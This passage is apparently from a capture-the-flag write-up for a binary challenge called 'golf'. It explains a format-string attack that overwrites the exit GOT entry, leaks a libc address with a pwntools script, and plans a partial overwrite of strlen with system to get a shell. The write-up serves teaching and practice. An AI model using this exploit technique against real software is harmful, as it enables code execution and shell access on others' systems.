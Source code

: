 With this we are able to get unlimited amount of writes. 

Next, we want to think about how to get a shell. If we look at the source code, we could ideally overwrite `strlen@plt.got` with `system` then send **/bin/sh** to get a shell.

However we first need to leak our libc address. With trial and error, we can find the offset of the address of **__libc_start_main+243** and use it to find the remote libc and calculate our libc base.

Using [libc-database](https://github.com/niklasb/libc-database) we can find the version of the remote libc. 

![image](attachments/pwn/golf/libcdb.png)

We then patch our binary with the libc and calculate our libc base.

```python
from pwn import *
import re

libc = ELF('./libc.so.6')
context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)

p.sendline("%77$p")
leak = int(re.findall(b'(0x\w+)', p.recvline())[0], 16) 
libc.address = leak - 243 - libc.sym.__libc_start_main

info(f"libc base @ {libc.address:#x}")

p.interactive()
```

Finally, we have to overwrite **strlen** address with **system** address. 

However, we cannot use the same method we used to overwrite the **exit.got** address because libc address are generally much higher up `i.e. 0x7ffff00000` range and it would take too much time to write that amount of byte into the **strlen.got** address.

This means that we need to do a partial overwrite with the **$hn** positional write which only modifies 2 bytes.
